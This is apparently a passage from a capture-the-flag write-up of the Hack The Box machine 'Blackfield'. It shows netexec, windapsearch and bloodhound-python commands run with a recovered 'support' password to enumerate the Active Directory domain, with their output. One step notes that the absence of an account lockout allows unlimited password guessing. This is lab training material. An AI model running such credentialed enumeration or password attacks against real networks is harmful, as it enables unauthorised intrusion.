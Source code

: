 `netexec smb 10.10.10.192 -u 'support' -p '#00^BlackKnight' --pass-pol`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
SMB         10.10.10.192    445    DC01             [+] Dumping password info for domain: BLACKFIELD
SMB         10.10.10.192    445    DC01             Minimum password length: 7
SMB         10.10.10.192    445    DC01             Password history length: 24
SMB         10.10.10.192    445    DC01             Maximum password age: 41 days 23 hours 53 minutes 
SMB         10.10.10.192    445    DC01             
SMB         10.10.10.192    445    DC01             Password Complexity Flags: 000001 ←
SMB         10.10.10.192    445    DC01                 Domain Refuse Password Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password Store Cleartext: 0
SMB         10.10.10.192    445    DC01                 Domain Password Lockout Admins: 0
SMB         10.10.10.192    445    DC01                 Domain Password No Clear Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password No Anon Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password Complex: 1 ←
SMB         10.10.10.192    445    DC01             
SMB         10.10.10.192    445    DC01             Minimum password age: 1 day 4 minutes 
SMB         10.10.10.192    445    DC01             Reset Account Lockout Counter: 30 minutes 
SMB         10.10.10.192    445    DC01             Locked Account Duration: 30 minutes 
SMB         10.10.10.192    445    DC01             Account Lockout Threshold: None ←
SMB         10.10.10.192    445    DC01             Forced Log off Time: Not Set
```

The password policy has a `lockoutThreshold` of 0, which means we can attempt an unlimited
number of passwords without locking the account out (although this is quite noisy).

`windapsearch.py -d 'blackfield.local' --dc-ip 10.10.10.192 -u 'support' -p '#00^BlackKnight'`:
```
[+] Using Domain Controller at: 10.10.10.192
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=BLACKFIELD,DC=local
[+] Attempting bind
[!] Error: invalid credentials ←
```
❌

`bloodhound-python -d 'blackfield.local' -ns 10.10.10.192 -u 'support' -p '#00^BlackKnight' -c DCOnly`:
```
INFO: Found AD domain: blackfield.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 316 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 18 computers
INFO: Found 0 trusts
INFO: Done in 00M 12S
```
